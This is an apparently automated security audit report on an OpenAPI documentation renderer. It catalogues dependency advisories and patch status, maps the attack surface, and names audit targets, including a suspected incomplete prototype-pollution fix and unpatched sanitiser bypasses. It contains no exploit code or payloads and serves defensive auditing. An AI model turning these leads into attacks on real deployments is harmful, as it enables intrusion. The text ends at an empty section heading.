







# Acme Security Knowledge Base Report

**Target**: Acmely/acme — OpenAPI documentation renderer (React client-side SPA)
**Branch**: main | **Commit**: [REDACTED]
**Audit date**: 2026-05-19
**Generated by**: cve-scout (Phase D1/D2)

---

## Historical Coverage

- **Repository identity**: `Acmely/acme` (resolved via git remote `https://github.com/Acmely/acme`)
- **Git history available**: true (`ARCHON_GIT_AVAILABLE` not set, git remote confirmed)
- **Tier reached**: Tier 2 all-time (acme itself has only 1 direct advisory; dependency expansion was required for pattern coverage)
- **Total advisories collected**: 54 (across acme direct: 2, dompurify: 17, handlebars: 19, marked: 13, prismjs: 6, json-pointer: 3, fast-xml-parser: 11 — deduplicated to most recent + security-relevant entries)
- **Severity distribution (direct + immediate transitive)**: CRITICAL: 3, HIGH: 18, MEDIUM: 14, LOW: 5, INFORMATIONAL: 3
- **Coverage gaps**: None. All sources (Source 1 git log, Source 2 GitHub Security Advisories via OSV, Source 3 OSV API, NVD, Section 5 patch-commit discovery) executed successfully.

---

## Advisory Intelligence

### Advisory Inventory — Acme Direct

| ID | Severity | CVSS | Affected Versions | Fixed Version | CWE | Component | Description |
|----|----------|------|-------------------|---------------|-----|-----------|-------------|
| CVE-2024-57083 / GHSA-9rhg-254w-fh9x | HIGH | CVSS:4.0 VA:H (DoS-focused) | acme <= 2.2.0 | 2.4.0 | CWE-1321 (Prototype Pollution) | `Module.mergeObjects` | Prototype pollution via crafted OpenAPI spec key — DoS and arbitrary property injection |
| CVE-2024-39011 | CRITICAL | CVSS base 9.8 (NVD) | chargeover/acme <= 2.0.9-rc.69 (fork, same mergeObjects code) | N/A (upstream fix: 2.4.0) | CWE-1321 | `mergeObjects` utility | Prototype pollution leading to RCE/DoS via `mergeObjects`; NVD assigned CRITICAL to this CVE referencing the same function patched in GHSA-9rhg-254w-fh9x |

### Advisory Inventory — DOMPurify (dependency, version 3.2.4 installed)

DOMPurify is the primary XSS sanitiser for all Markdown HTML output in Acme. Version 3.2.4 is installed; multiple advisories require 3.3.2 or 3.4.0.

| ID | Severity | CVSS | Fixed In | Status vs 3.2.4 | CWE | Description |
|----|----------|------|----------|-----------------|-----|-------------|
| GHSA-39q2-94rc-95cp | MEDIUM | CVSS:4.0 VC:L/VI:L | 3.4.0 | VULNERABLE | CWE-79 | ADD_TAGS function form bypasses FORBID_TAGS (short-circuit) |
| GHSA-cj63-jhhr-wcxv | MEDIUM | CVSS:4.0 VI:L | 3.3.2 | VULNERABLE | CWE-1321 | USE_PROFILES prototype pollution allows event handlers |
| GHSA-cjmm-f4jc-qw8r | LOW | CVSS:4.0 SI:L | 3.3.2 | VULNERABLE | CWE-79 | ADD_ATTR predicate skips URI validation |
| GHSA-crv5-9vww-q3g8 | HIGH | CVSS:3.1 C:H/I:H | 3.4.0 | VULNERABLE | CWE-79 | SAFE_FOR_TEMPLATES bypass in RETURN_DOM mode |
| GHSA-gx9m-whjm-85jf (CVE-2024-47875) | CRITICAL | CVSS:3.1 C:L/I:H/A:H | 3.1.1 | PATCHED | CWE-79 | Nesting-based mutation-XSS |
| GHSA-h7mw-gpvr-xq4m (CVE-2026-41240) | HIGH | CVSS:4.0 VI:H | 3.4.0 | VULNERABLE | CWE-79 | FORBID_TAGS bypass via function-based ADD_TAGS predicate |
| GHSA-h8r8-wccr-v5f2 | MEDIUM | CVSS:4.0 SI:L | 3.3.2 | VULNERABLE | CWE-79 | Mutation-XSS via re-contextualization |
| GHSA-mmhx-hmjr-r674 (CVE-2024-45801) | HIGH | CVSS:3.1 C:L/I:H/A:L | 2.5.0 / 3.0.0 | PATCHED | CWE-1321 | Prototype pollution tampering with sanitiser |
| GHSA-p3vf-v8qc-cwcr (CVE-2024-48910) | HIGH | CVSS:3.1 C:H/I:H | 2.5.4 / 3.1.3 | PATCHED | CWE-1321 | Prototype pollution tampering with sanitiser (second instance) |
| GHSA-v2wj-7wpq-c8vv (CVE-2026-0540) | MEDIUM | CVSS:3.1 C:L/I:L | 3.3.2 (v3 branch) | VULNERABLE | CWE-79 | XSS via filter bypass |
| GHSA-v8jm-5vwx-cfxm (CVE-2025-15599) | MEDIUM | CVSS:3.1 C:L/I:L | 3.2.7 (v3 branch) | VULNERABLE | CWE-79 | XSS via filter bypass (related to 0540) |
| GHSA-v9jr-rg53-9pgp (CVE-2026-41238) | HIGH | CVSS:3.1 C:H/I:L | 3.4.0 | VULNERABLE | CWE-1321 | Prototype Pollution to XSS bypass via CUSTOM_ELEMENT_HANDLING |
| GHSA-vhxf-7vqr-mrjg (CVE-2025-26791) | LOW | CVSS:3.1 C:L/I:L | 3.2.4 | PATCHED (exactly) | CWE-79 | XSS — fixed in exactly 3.2.4 |

**Net status**: DOMPurify 3.2.4 is unpatched for at least 7 active advisories requiring upgrade to 3.3.2–3.4.0.

### Advisory Inventory — marked (version 4.3.0 installed)

marked is used for all Markdown-to-HTML rendering before DOMPurify sanitisation.

| ID | Severity | CVSS | Fixed In | Status vs 4.3.0 | CWE | Description |
|----|----------|------|----------|-----------------|-----|-------------|
| GHSA-5v2h-r2cx-5xgj (CVE-2022-21681) | HIGH | CVSS:3.1 A:H | 4.0.10 | PATCHED | CWE-400 | Inefficient regex — ReDoS |
| GHSA-rrrm-qjm4-v8hf (CVE-2022-21680) | HIGH | CVSS:3.1 A:H | 4.0.10 | PATCHED | CWE-400 | Inefficient regex — ReDoS |
| GHSA-6v9c-7cg6-27q7 (CVE-2026-41680) | HIGH | CVSS:3.1 A:H | 18.0.2 | NOT AFFECTED (only 18.x) | CWE-674 | OOM via infinite recursion in tokeniser |
| GHSA-4r62-v4vq-hr96 (CVE-2021-21306) | LOW | CVSS:3.1 A:L | 2.0.0 | PATCHED | CWE-400 | ReDoS in earlier version |
| GHSA-p9wx-2529-fp83 (CVE-2018-25110) | LOW | CVSS:4.0 VA:L | unknown | likely PATCHED | CWE-400 | ReDoS |
| GHSA-7px7-7xjx-hxm8 (CVE-2017-1000427) | MEDIUM | CVSS:3.0 C:L/I:L | older | PATCHED | CWE-79 | XSS from data URIs in Markdown |
| GHSA-vfvf-mqq8-rwqc (CVE-2016-10531) | MEDIUM | CVSS:3.0 C:L/I:L | older | PATCHED | CWE-79 | Sanitisation bypass via HTML entities |

### Advisory Inventory — prismjs (version 1.30.0 installed)

prismjs is used for syntax highlighting of code samples in the rendered spec.

| ID | Severity | CVSS | Fixed In | Status vs 1.30.0 | CWE | Description |
|----|----------|------|----------|------------------|-----|-------------|
| GHSA-x7hr-w5r2-h6wg (CVE-2024-53382) | MEDIUM | CVSS:3.1 C:L/I:L | 1.30.0 | PATCHED (exactly) | CWE-79 | DOM Clobbering vulnerability |
| GHSA-3949-f494-cm99 (CVE-2022-23647) | HIGH | CVSS:3.1 C:H/I:L/A:L | 1.27.0 | PATCHED | CWE-79 | XSS via crafted language token |
| GHSA-gj77-59wh-66hg (CVE-2021-32723) | HIGH | CVSS:3.1 A:H | 1.24.0 | PATCHED | CWE-400 | ReDoS |
| GHSA-hqhp-5p83-hx96 (CVE-2021-3801) | HIGH | CVSS:3.1 A:H | 1.25.0 | PATCHED | CWE-400 | ReDoS |
| GHSA-h4hr-7fg3-h35w (CVE-2021-23341) | HIGH | N/A | 1.23.0 | PATCHED | CWE-400 | DoS |
| GHSA-wvhm-4hhf-97x9 (CVE-2020-15138) | HIGH | CVSS:3.1 C:H/I:H/A:L | 1.21.0 | PATCHED | CWE-79 | XSS |

### Advisory Inventory — json-pointer (version 0.6.2 installed)

| ID | Severity | CVSS | Fixed In | Status vs 0.6.2 | CWE | Description |
|----|----------|------|----------|-----------------|-----|-------------|
| GHSA-6xrf-q977-5vgc (CVE-2022-4742) | CRITICAL | CVSS:3.1 C:H/I:H/A:H | unknown | VERIFY | CWE-1321 | Prototype pollution in json-pointer |
| GHSA-v5vg-g7rq-363w (CVE-2021-23820) | MEDIUM | CVSS:3.1 C:L/I:L/A:L | 0.6.2 (changelog says patched) | PATCHED (commit 777efdd) | CWE-1321 | Prototype Pollution — explicitly fixed by acme in commit 777efdd |
| GHSA-7mg4-w3w5-x5pc (CVE-2020-7709) | MEDIUM | CVSS:3.1 A:H | older | PATCHED | CWE-1321 | Prototype Pollution |

### Advisory Inventory — fast-xml-parser (version 5.8.0 installed)

fast-xml-parser is a devDependency / build-time tool (no direct runtime call found in src/). Recent commit 59d217b updated it from a vulnerable version.

| ID | Severity | CVSS | Fixed In | Status vs 5.8.0 | CWE | Description |
|----|----------|------|----------|-----------------|-----|-------------|
| GHSA-6w63-h3fj-q4vw (CVE-2023-34104) | HIGH | CVSS:3.1 A:H | 4.2.5 | PATCHED | CWE-400 | ReDoS via Doctype Entities regex injection |
| GHSA-x3cc-x39p-42qx (CVE-2023-26920) | HIGH | CVSS:3.1 C:H | 4.2.1 | PATCHED | CWE-1321 | Prototype Pollution via tag/attribute name |
| GHSA-mpg4-rc92-vx8v (CVE-2024-41818) | HIGH | CVSS:3.1 A:H | 4.4.1 | PATCHED | CWE-400 | ReDoS at currency parsing |
| GHSA-jmr7-xgp7-cmfj (CVE-2026-26278) | HIGH | CVSS:3.1 A:H | 5.2.0 | PATCHED | CWE-400 | DoS via entity expansion in DOCTYPE |
| GHSA-8gc5-j5rx-235r (CVE-2026-33036) | HIGH | CVSS:3.1 A:H | 5.5.6 | PATCHED | CWE-400 | Numeric entity expansion bypassing limits (incomplete fix for 26278) |
| GHSA-jp2q-39xq-3w4g (CVE-2026-33349) | HIGH | CVSS:3.1 A:H | 5.7.0 | PATCHED | CWE-400 | Entity expansion limits bypass when set to zero (JS falsy) |
| GHSA-gh4j-gqv2-49f6 (CVE-2026-41650) | MEDIUM | CVSS:3.1 C:L/I:L | 4.5.5 / 5.7.0 | PATCHED | CWE-79 | XMLBuilder XML Comment/CDATA injection |
| GHSA-m7jm-9gc2-mpf2 (CVE-2026-25896) | HIGH | CVSS:3.1 C:L/I:H | 5.2.1 | PATCHED | CWE-20 | Entity encoding bypass via regex injection in DOCTYPE entity names |
| GHSA-37qj-frw5-hhjh (CVE-2026-25128) | HIGH | CVSS:3.1 A:H | later | PATCHED (5.8.0 > affected) | CWE-400 | RangeError DoS with numeric entities |
| GHSA-fj3w-jwp8-x2g3 (CVE-2026-27942) | LOW | CVSS:4.0 VA:L | 5.1.0 | PATCHED | CWE-674 | Stack overflow in XMLBuilder with preserveOrder |
| GHSA-gpv5-7x3g-ghjv | LOW | N/A | N/A | legacy issue | CWE-400 | Regex vulnerability improvement advisory |

### Advisory Inventory — handlebars (version 4.7.9 installed)

handlebars is used internally by acme-cli for HTML template rendering during static bundle generation.

| ID | Severity | CVSS | Fixed In | Status vs 4.7.9 | CWE | Description |
|----|----------|------|----------|-----------------|-----|-------------|
| GHSA-f2jv-r9rf-7988 (CVE-2021-23369) | CRITICAL | CVSS:3.1 C:H/I:H/A:H | 4.7.7 | PATCHED | CWE-94 | RCE when compiling templates |
| GHSA-765h-qjxv-5f44 (CVE-2021-23383) | CRITICAL | CVSS:3.1 C:H/I:H/A:H | 4.7.7 | PATCHED | CWE-1321 | Prototype Pollution |
| GHSA-w457-6q6x-cgp9 (CVE-2019-19919) | CRITICAL | CVSS:3.1 C:H/I:H/A:H | 4.5.3 | PATCHED | CWE-1321 | Prototype Pollution |
| GHSA-3cqr-58rm-57f8 (CVE-2019-20920) | HIGH | CVSS:3.1 C:H/I:L/A:L | 4.7.6 | PATCHED | CWE-22 | Arbitrary code execution via path traversal in require |
| GHSA-62gr-4qp9-h98f (CVE-2019-20922) | HIGH | CVSS:3.1 A:H | 4.7.6 | PATCHED | CWE-400 | ReDoS |
| GHSA-2qvq-rjwj-gvw9 (CVE-2026-33916) | MEDIUM | CVSS:3.1 C:L/I:L | unknown (>4.7.9?) | VERIFY | CWE-94 | Prototype Pollution leading to XSS via partial template injection |
| GHSA-2w6w-674q-4c4q (CVE-2026-33937) | CRITICAL | CVSS:3.1 C:H/I:H/A:H | unknown | VERIFY | CWE-94 | JS injection via AST type confusion |
| GHSA-3mfm-83xf-c92r (CVE-2026-33938) | HIGH | CVSS:3.1 C:H/I:H/A:H | unknown | VERIFY | CWE-94 | JS injection via @partial-block tampering |
| GHSA-442j-39wm-28r2 | LOW | CVSS:3.1 C:L | unknown | VERIFY | CWE-284 | Property Access Validation Bypass in container.lookup |
| GHSA-7rx3-28cr-v5wh | LOW | CVSS:3.1 C:L/I:L | unknown | VERIFY | CWE-284 | Missing __lookupSetter__ blocklist entry |
| GHSA-9cx6-37pm-9jff (CVE-2026-33939) | HIGH | CVSS:3.1 A:H | unknown | VERIFY | CWE-400 | DoS via malformed decorator syntax |
| GHSA-xhpv-hc6g-r9c6 (CVE-2026-33940) | HIGH | CVSS:3.1 C:H/I:H/A:H | unknown | VERIFY | CWE-94 | JS injection when object passed as dynamic partial |
| GHSA-xjpj-3mr7-gcpf (CVE-2026-33941) | HIGH | CVSS:3.1 C:H/I:H/A:H | unknown | VERIFY | CWE-94 | JS injection in CLI precompiler via unescaped names |

---

## Patch List

All security-relevant commits in git history with CVE/GHSA labels, for dispatch to patch-auditor agents:

| SHA | Date | Title | CVE/GHSA | Notes |
|-----|------|--------|----------|-------|
| `[REDACTED]` | 2025-01-28 | fix: Prototype Pollution Vulnerability Affecting acme <=2.2.0 (#2638) | CVE-2024-57083 / GHSA-9rhg-254w-fh9x | Patched `mergeObjects` in `src/utils/helpers.ts`; added `__proto__` key block |
| `[REDACTED]` | 2022-02-24 | fix: bump json-pointer version to avoid CVE-2021-23820 (#1910) | CVE-2021-23820 / GHSA-v5vg-g7rq-363w | Upgraded json-pointer to 0.6.2 |
| `[REDACTED]` | 2022-03-14 | fix: sanitize array of items (#1920) | none (XSS hardening) | Sanitisation of array-type schema items in `ArrayItemDetails.tsx` |
| `[REDACTED]` | 2022-03-24 | chore: update minimist for security reasons (#1943) | CVE-2022-0686 (minimist prototype pollution) | Dep bump in cli/npm-shrinkwrap.json |
| `[REDACTED]` | 2024-04-24 | chore: fix vulnerabilities and upgrade deps (#2445) | multiple transitive | Bulk dep upgrade — covers multiple transitive CVEs |
| `[REDACTED]` | 2026-05-12 | chore(deps): update handlebars and fast-xml-parser dependencies (#2785) | GHSA-2w6w-674q-4c4q/CVE-2026-33937, GHSA-gh4j-gqv2-49f6/CVE-2026-41650, multiple fast-xml-parser DoS | Raised handlebars to >=4.7.9, fast-xml-parser to >=5.7.0 |

---

## Vulnerability Pattern Analysis

### 2a. Component Vulnerability Heatmap

| Component | Advisory Count | Severity Distribution | Dominant Bug Types | Heat |
|-----------|---------------|----------------------|-------------------|------|
| DOMPurify (sanitiser) | 17 total / 7 active against 3.2.4 | HIGH: 4 active, MED: 3 active | XSS bypass, Prototype Pollution, mXSS | HIGH-HEAT |
| handlebars (CLI template engine) | 19 total / ~7 unverified against 4.7.9 | CRITICAL: 3, HIGH: 6 | RCE, Prototype Pollution, JS injection | HIGH-HEAT |
| marked (Markdown parser) | 13 total / 0 active against 4.3.0 | HIGH: 2 (patched), LOW: 5 | ReDoS, XSS | MEDIUM (patched) |
| fast-xml-parser (build-time) | 11 total / 0 active against 5.8.0 | HIGH: 6 (all patched) | DoS/ReDoS, entity expansion, prototype pollution | LOW (patched) |
| prismjs (syntax highlighter) | 6 total / 0 active against 1.30.0 | HIGH: 5 (all patched) | XSS, ReDoS | LOW (patched) |
| acme mergeObjects utility | 2 advisories | CRITICAL: 1, HIGH: 1 | Prototype Pollution | HIGH-HEAT (patched in 2.4.0, current is 2.5.2) |
| json-pointer | 3 advisories | CRITICAL: 1 (GHSA-6xrf-q977-5vgc needs verification vs 0.6.2) | Prototype Pollution | MEDIUM |

### 2b. Bug Type Recurrence

| Bug Class | CWEs | Count | Examples |
|-----------|------|-------|---------|
| XSS / HTML injection | CWE-79 | 14 | DOMPurify bypasses, marked XSS, prismjs XSS, handlebars template injection |
| Prototype Pollution | CWE-1321 | 12 | acme mergeObjects, DOMPurify prototype tamper, json-pointer, handlebars, fast-xml-parser |
| DoS / ReDoS / resource exhaustion | CWE-400, CWE-674 | 14 | marked ReDoS, prismjs ReDoS, handlebars ReDoS, fast-xml-parser entity expansion, stack overflow |
| Arbitrary Code Execution / RCE | CWE-94 | 6 | handlebars template compilation, JS injection via AST confusion |
| Path traversal | CWE-22 | 1 | handlebars require path traversal (CVE-2019-20920) |
| Info disclosure / open redirect | CWE-200 | 2 | DOMPurify open redirect (CVE-2019-25155) |

**Recurring (2+ in same class):**
- Prototype Pollution (12 instances): indicates the entire JS object-merge/spec-ingestion pipeline is a structural target
- XSS / HTML injection (14 instances): DOMPurify is the choke point — any bypass in it directly exposes all Markdown/description fields to XSS
- DoS/ReDoS (14 instances): multiple parser components have historical ReDoS exposure; acme accepts arbitrary user-controlled OpenAPI spec content (description, example, schema) that flows into all these parsers

### 2c. Attack Surface Trends

Exploited input vectors ranked by frequency across historical advisories:

1. **OpenAPI spec content (descriptions, examples, schema values)** — primary vector; all Markdown, all HTML, all field names flow from this. Prototype pollution, XSS bypass, and ReDoS all materialise here.
2. **Template/HTML rendering pipeline** (marked → DOMPurify → `dangerouslySetInnerHTML`) — all XSS advisories converge here.
3. **CLI template engine (handlebars)** — server-side RCE surface when acme-cli generates static bundles from attacker-controlled specs.
4. **JSON/XML parsing of spec content** — fast-xml-parser DoS, entity expansion attacks.
5. **JavaScript object merging / $ref resolution** — prototype pollution in `mergeObjects`, json-pointer.

### 2d. Patch Quality Signals — Structural Recurrence

| Component | Pattern | Versions Patched | Signal |
|-----------|---------|------------------|--------|
| `mergeObjects` (acme) | Prototype Pollution — `__proto__` key check added | 2.2.0 → 2.4.0 | Fix blocks `__proto__` but does NOT block `constructor` or `prototype` key paths; `constructor.prototype` pollution may remain. Structural-recurrence candidate. |
| DOMPurify | XSS bypass — recurring across 17 advisories from 2019 to 2026 | Every major version | DOMPurify's sanitiser is repeatedly bypassed; acme's `sanitize: false` default means the sanitiser is opt-in only — every new DOMPurify bypass in <3.3.2 is a live vuln if `sanitize` option is enabled. |
| fast-xml-parser entity expansion | DoS — incomplete fix for CVE-2026-26278 led to CVE-2026-33036; falsy-zero bypass in CVE-2026-33349 | 5.2.0 → 5.5.6 → 5.7.0 (3 patches) | Textbook structural-recurrence: initial fix was incomplete, two follow-up CVEs in same component, same root cause. |
| handlebars AST injection | RCE/code injection — multiple AST-type-confusion variants (CVE-2026-33937, 33938, 33940) | All in 2026, fix versions not confirmed vs 4.7.9 | Strong structural-recurrence signal in handlebars 2026 wave. |

**Audit targeting recommendations:**

> Based on pattern analysis:
>
> **Phase 3 DFD slices** should prioritise: (1) the Markdown rendering pipeline (`MarkdownRenderer` → `marked` → `SanitizedMdBlock` → `DOMPurify.sanitize` → `dangerouslySetInnerHTML`), and (2) the `mergeObjects` / OpenAPI spec ingestion path in `src/utils/helpers.ts` and `OpenAPIParser.ts`.
>
> **Phase 5 deep probe** should target: (1) all `description`, `summary`, `title`, `example`, and `x-*` extension fields in the OpenAPI spec as XSS/prototype-pollution injection vectors; (2) the `sanitize` option gate in `SanitizedMarkdownHTML` — verify what value is default and what happens with `sanitize: false`; (3) the handlebars CLI template invocation path in acme-cli for RCE if attacker controls spec fed to CLI.
>
> **Phase 10 review chambers** must include: (1) XSS bypass / mXSS as a mandatory attack mode (recurring across 14 advisories); (2) Prototype Pollution as a mandatory attack mode (12 advisories, structural recurrence in the exact `mergeObjects` code); (3) DoS/ReDoS (marked, prismjs, fast-xml-parser all historically affected, spec content feeds directly into these parsers).
>
> **Patch-bypass-checker** should flag: `mergeObjects` in `src/utils/helpers.ts` as structural-recurrence candidate — current fix blocks `__proto__` but `constructor` and `prototype` key paths were not explicitly blocked and should be verified.

---

## Architecture Inventory

### Components

| Component | Type | Trust Boundary | Notes |
|-----------|------|---------------|-------|
| React SPA (browser) | UI renderer | Untrusted input: OpenAPI spec URL/inline JSON | No backend. All rendering client-side. |
| `OpenAPIParser` | Spec ingestion / `$ref` resolver | Crosses origin boundary via `$ref` URLs | Fetches external JSON/YAML refs — SSRF surface in browser context |
| `MarkdownRenderer` (marked) | Markdown-to-HTML | Untrusted spec content | All `description` fields parsed as Markdown |
| `SanitizedMdBlock` (DOMPurify) | HTML sanitiser | Gates `dangerouslySetInnerHTML` | Only active when `sanitize: true` option is set |
| `mergeObjects` / `OpenAPIParser` | Spec merging | Untrusted spec content | Prototype pollution patched in 2.4.0; `constructor` path unverified |
| `jsonToHtml` | JSON-to-HTML renderer | Untrusted spec examples | Builds raw HTML from spec example values; uses `htmlEncode()` — correctness must be verified |
| `prismjs` | Syntax highlighter | Untrusted code samples | Used for code block rendering; all patched in 1.30.0 |
| acme-cli (Node) | Static bundle generator | Attacker-controlled spec files | Uses handlebars for HTML templating — RCE surface |
| `LinkifyComponent` | URL rendering | Untrusted spec fields | Renders href values from spec; uses `encodeURI` but not `encodeURIComponent` |
| webpack-dev-server | Development server | LAN / localhost | Dev only; not in production bundle |

### Transports

- **Spec loading**: HTTP fetch (via `specUrl` prop or `loadAndBundleSpec`); inline JSON via `spec` prop; worker thread for spec processing
- **$ref resolution**: HTTP(S) fetch of external JSON/YAML refs — browser-enforced CORS but may allow same-origin or CORS-open endpoints
- **React render tree**: data flows from spec → model layer (MobX) → React components → DOM via `dangerouslySetInnerHTML`
- **acme-cli**: file system read of spec, handlebars template rendering, HTML file output

### Trust Boundaries

| Boundary | Description |
|----------|-------------|
| Spec origin → renderer | All OpenAPI spec content is attacker-controlled when used with `untrustedSpec`/`sanitize: true`; but `sanitize` defaults to `false` |
| Browser same-origin policy | Limits SSRF from `$ref` fetches to same-origin or CORS-enabled endpoints |
| acme-cli process | Node process boundary; spec content reaches handlebars templates — server-side template injection risk |
| `dangerouslySetInnerHTML` boundary | DOMPurify is the sole gate; any bypass is a direct DOM XSS |

### Highest-Risk Flows

